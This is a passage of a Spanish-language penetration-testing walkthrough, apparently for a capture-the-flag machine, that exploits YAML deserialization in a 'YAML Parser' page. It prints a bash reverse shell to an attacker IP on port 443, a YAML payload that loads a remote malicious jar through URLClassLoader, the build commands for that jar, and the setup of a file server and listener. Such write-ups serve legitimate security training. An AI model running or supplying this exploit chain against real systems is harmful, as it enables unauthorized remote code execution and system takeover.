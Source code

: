Como vemos en el script intentaremos al momento de realizar la desearializacion se ejecute una peticion que con `curl` nos realize una peticion a un archivo el cual alojaremos een nuestra maquina y lo depositaremos en el directorio `tmp` de la maquina victima con el nombre `reverse.sh`.

Seguidamente procederemos a crear un script en bash con el nombre `reverse.sh` el cual al ejecutarse se encargara de ejecutarnos una peticion por el puerto `443` para obtener una shell reversa.

```bash
#!/bin/bash


bash -i >& /dev/tcp/10.10.16.4/443 0>&1

```

Procedemo a compilar `AwesomeScriptEngineFactory.java` y esto nos genera un archivo 

```bash
❯ javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C src/ .
manifiesto agregado
ignorando entrada META-INF/
agregando: META-INF/services/(entrada = 0) (salida = 0)(almacenado 0%)
agregando: META-INF/services/javax.script.ScriptEngineFactory(entrada = 36) (salida = 38)(desinflado -5%)
agregando: artsploit/(entrada = 0) (salida = 0)(almacenado 0%)
agregando: artsploit/AwesomeScriptEngineFactory.java(entrada = 1575) (salida = 420)(desinflado 73%)
agregando: artsploit/AwesomeScriptEngineFactory.class(entrada = 1678) (salida = 705)(desinflado 57%)

❯ ls
 src   README.md   yaml-payload.jar
```

modificamos el codigo `YAML` el cual insertaremos en la pagina `YAML Parser`, para que realize una peticion a nuestra maquina en donde tendremos alojado el archivo `yaml-payload-jar` y este a su vez nos ejecutara el codigo contenido que se encargara de realizar otra peticion a nuestro archivo `reverse.sh`

```java
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.16.4/yaml-payload.jar"]
  ]]
]
```
Montamos un servidor con `python` en donde tenemos los dos archivos:

```bash
❯ ls
 src   README.md   reverse.sh   yaml-payload.jar
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

y nos ponemos en escucha con `ncat` en el puerto `443`
